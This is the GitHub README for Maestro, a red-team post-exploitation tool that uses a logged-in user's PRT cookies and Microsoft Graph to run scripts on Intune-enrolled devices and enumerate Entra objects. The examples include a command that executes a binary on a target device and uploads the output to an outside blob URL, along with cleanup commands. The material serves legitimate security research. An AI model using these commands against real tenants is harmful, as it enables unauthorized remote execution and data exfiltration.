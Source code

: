 <p align="center">
    <img src="https://img.shields.io/endpoint?url=https%3A%2F%2Fraw.githubusercontent.com%2Fspecterops%2F.github%2Fmain%2Fconfig%2Fshield.json&style=flat"
        alt="Sponsored by SpecterOps"/></a>
    <a href="https://twitter.com/_Mayyhem">
        <img src="https://img.shields.io/twitter/follow/_Mayyhem?style=social"
        alt="@_Mayyhem on Twitter"/></a>
</p>

---

# Maestro
Maestro is a post-exploitation tool designed to interact with Intune/EntraID from a C2 agent on a user's workstation without requiring knowledge of the user's password or Azure authentication flows, token manipulation, and web-based administration console. Maestro makes interacting with Intune and EntraID (and potentially other Azure services) from C2 much easier, as the operator does not need to obtain the user's cleartext password, extract primary refresh token (PRT) cookies from the system, run additional tools or a browser session over a SOCKS proxy, or deal with Azure authentication flows, tokens, or conditional access policies in order to execute actions in Azure on behalf of the logged-in user.

Maestro is essentially a wrapper for local PRT cookie requests and calls to the Microsoft Graph API with a lot of quality-of-life features added for red teamers. Maestro enables attack paths between on-prem and Azure. For example, by running Maestro on an Intune admin's machine, you can execute PowerShell scripts on any enrolled device without ever knowing the admin's credentials, even if MFA, device compliance, and a hybrid-joined device are required by conditional access policies.

Maestro's lateral movement functions were inspired by [Death from Above: Lateral Movement from Azure to On-Prem AD](https://posts.specterops.io/death-from-above-lateral-movement-from-azure-to-on-prem-ad-d18cb3959d4d) by Andy Robbins ([@_wald0](https://x.com/_wald0)). 

You can read more in this introductory blog post for Maestro: https://posts.specterops.io/maestro-9ed71d38d546

# Features
- Real-time PowerShell script execution (via Proactive Remediations)
- Application execution
- Real-time Device Query execution
- Force device check-in and sync
- Intune and Entra object enumeration
- Local database to store credentials and query results

# Syntax
`Maestro.exe <command> [subcommand] [options]`

All commands and subcommands have a help page that is generated using a custom command line parser to keep the size of the binary to a minimum. Help pages can be accessed by entering any Maestro command followed by `-h` or `--help`.

Please refer to the output of the `--help` option for each command for the most up-to-date usage information.

Examples can be found at the bottom of this file.

# vNext
- Local Endpoint Privilege Management (EPM) enumeration

# Blogs/Talks
- [DEF CON 32 Demo Labs slides](https://docs.google.com/presentation/d/1TGl-ASNo-1jXMOha9yd1CdPI-zCMt2UP/edit?usp=sharing&ouid=114582824289521319309&rtpof=true&sd=true)

# Development
For debugging, I share a directory on an Intune-enrolled machine that is accessible from my host running Visual Studio, execute the Visual Studio Remote Debugger, configure a post-build job to copy the solution files to the share, and configure Visual Studio to remote debug on the enrolled system.

# Supporters
The time I'm able to spend researching, developing, and improving Maestro would not be possible without [SpecterOps's](https://www.specterops.io/) sponsorship of the project as part of their commitment to transparency and support for open-source development. I'm immensely grateful for their guidance and support.

# Contributions
Some Maestro features were inspired by or built based on the work of others, including:
- [RequestAADRefreshToken](https://github.com/leechristensen/RequestAADRefreshToken), by Lee Chagolla-Christensen ([@tifkin_](https://x.com/tifkin_))
- [ROADtoken](https://github.com/dirkjanm/ROADtoken), by Dirk-jan Mollema ([@_dirkjan](https://x.com/_dirkjan))

If you're interested in collaborating, please hit me up on Twitter ([@_Mayyhem](https://twitter.com/_Mayyhem)) or in the [BloodHoundGang Slack](http://ghst.ly/BHSlack)!

# Examples
Execute `dsregcmd.exe` on the Intune device with ID `e537180b-6d04-427e-bf93-dbde818400eb`, uploading results to the Azure Storage Blob Container SAS URL with a shared access token:
```
.\Maestro.exe exec intune upload -i e537180b-6d04-427e-bf93-dbde818400eb -n MyPolicy --url 'https://maestro2go.blob.core.windows.net/uploads?st=2025-01-14T20:19:57Z&se=2025-01-15T04:19:57Z&si=All&sv=2022-11-02&sr=c&sig=QYri...ZkpA%3D' --commands "%windir%\system32\dsregcmd.exe"
...
2025-01-14 20:20:28.251 UTC - [INFO]    Creating new device assignment filter with displayName: d004a709-aae6-4fbf-91cd-48f227272c97
2025-01-14 20:20:28.251 UTC - [INFO]    Requesting devices from Intune
2025-01-14 20:20:28.267 UTC - [INFO]    Requesting IntuneDevices from Microsoft Graph
2025-01-14 20:20:28.783 UTC - [INFO]    Found 1 IntuneDevice matching query in Microsoft Graph
2025-01-14 20:20:29.017 UTC - [INFO]    Found 1 devices in filtered results
2025-01-14 20:20:29.361 UTC - [INFO]    Obtained filter ID: 6fdc043b-4c3a-4f77-b9a3-0d65d9300e64
2025-01-14 20:20:29.379 UTC - [INFO]    Creating custom config policy for device: e537180b-6d04-427e-bf93-dbde818400eb
2025-01-14 20:20:29.649 UTC - [INFO]    Obtained policy ID: fbca5c35-5282-4ec7-87de-a2d16a743079
2025-01-14 20:20:29.680 UTC - [INFO]    Assigning policy fbca5c35-5282-4ec7-87de-a2d16a743079 with filter 6fdc043b-4c3a-4f77-b9a3-0d65d9300e64
2025-01-14 20:20:29.983 UTC - [INFO]    Successfully assigned policy with filter
2025-01-14 20:20:29.983 UTC - [INFO]    Successfully created and assigned diagnostic logs policy with request ID 651d2244-4ad7-4efe-bb5e-d017b0c27750
2025-01-14 20:20:29.999 UTC - [INFO]    Not syncing automatically, execute the following to force device sync:

    .\Maestro.exe exec intune sync -i e537180b-6d04-427e-bf93-dbde818400eb

Clean up after execution:
    .\Maestro.exe delete intune policy -i fbca5c35-5282-4ec7-87de-a2d16a743079
    .\Maestro.exe delete intune filter -i 6fdc043b-4c3a-4f77-b9a3-0d65d9300e64

2025-01-14 20:20:29.999 UTC - [INFO]    Completed execution in 00:00:04.8572902
```